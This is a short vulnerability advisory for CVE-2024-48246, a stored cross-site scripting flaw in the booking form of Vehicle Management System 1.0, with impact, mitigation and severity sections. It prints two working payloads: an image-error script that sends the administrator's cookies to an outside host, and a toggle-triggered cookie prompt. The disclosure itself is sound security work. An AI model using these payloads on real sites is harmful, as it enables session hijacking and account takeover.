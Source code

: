 # CVE-2024-48246
Vehicle Management System 1.0 - Stored Cross-Site Scripting (XSS)

# Description

Vehicle Management System 1.0 contains a Stored Cross-Site Scripting (XSS) vulnerability in the Name parameter of /vehicle-management/booking.php. A malicious actor can inject malicious payloads into the Name field, which are stored and executed when an administrator views the booking list on /vehicle-management/bookinglist.php. This can lead to session hijacking or administrative account takeover.

# Affected Parameter

Name=

# Affected Endpoints

/vehicle-management/booking.php

/vehicle-management/bookinglist.php

# Vulnerability Details

Type: Cross-Site Scripting (XSS)

Vendor: Vehicle Management System

Affected Version: 1.0

# Attack Vectors

Guest User Attack:

A guest user inputs a payload into the Name parameter at /vehicle-management/booking.php.
The malicious payload gets stored and executed when an admin views /vehicle-management/bookinglist.php.
Example payload for session hijacking:

```
<img src=x onerror=this.src='http://oastify.com"+document.cookie>
```

# Alert Example:

Another payload can trigger an alert or perform other malicious actions without requiring cookies:

```
<details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle="prompt(document.cookie);">
```

Note: A SQL Injection error may occur during payload submission, but it will still get stored and executed.

# Impact

Exploiting this vulnerability allows attackers to:

Execute arbitrary JavaScript in the context of the administrator’s session.

Hijack administrator sessions via stolen cookies.

Perform unauthorized actions or escalate privileges.

# Mitigation

Sanitize and encode user input for all parameters, especially Name.

Implement a Content Security Policy (CSP) to limit script execution.

Update to a patched version if available.

# Severity

High (CVSS: 8.2)

Attack Vector: Network

Privileges Required: Low

User Interaction: Partially Required (Admin views booking list)
